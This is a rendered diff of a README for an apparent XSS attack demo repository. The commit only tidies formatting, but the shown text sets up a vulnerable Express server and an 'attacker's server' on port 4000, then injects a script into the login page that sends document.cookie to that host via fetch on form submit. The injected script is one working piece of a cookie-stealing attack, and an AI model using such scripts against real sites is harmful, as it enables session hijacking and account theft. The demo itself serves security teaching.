

Before and after one commit to tanviiiiir-r/XSS-Attack-Demo, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Test commit with new GPG key

````diff
--- a/README.md
+++ b/README.md
@@ -68,27 +68,18 @@ Edit
 ```sh
 npm install express
 ###2️⃣ **Start the Vulnerable Web Server**
-sh
-Copy
-Edit
+
 node server.js
 The web app will start on:
-arduino
-Copy
-Edit
 http://localhost:3000
 
 ---
 
 ###3️⃣ **Start the Attacker’s Server**
-sh
-Copy
-Edit
+
 node attacker.js
+
 The attacker server will listen for stolen cookies at:
-cpp
-Copy
-Edit
 http://192.168.X.X:4000
 
 ---
@@ -99,9 +90,7 @@ This script is injected into the vulnerable login page (index.html) so that when
 ---
 
 ### 🔹 Inside index.html (before </body>)
-html
-Copy
-Edit
+
 <script>
 document.getElementById("loginForm").addEventListener("submit", function() {
     fetch("http://192.168.64.2:4000/steal?cookie=" + document.cookie);
@@ -117,9 +106,7 @@ document.getElementById("loginForm").addEventListener("submit", function() {
 This script captures and logs the stolen session cookies.
 
 ###🔹 Inside attacker.js
-javascript
-Copy
-Edit
+
 const express = require('express');
 const fs = require('fs');
 const app = express();
````
Also changed, not shown: other parts of README.md (+1 -1 lines).
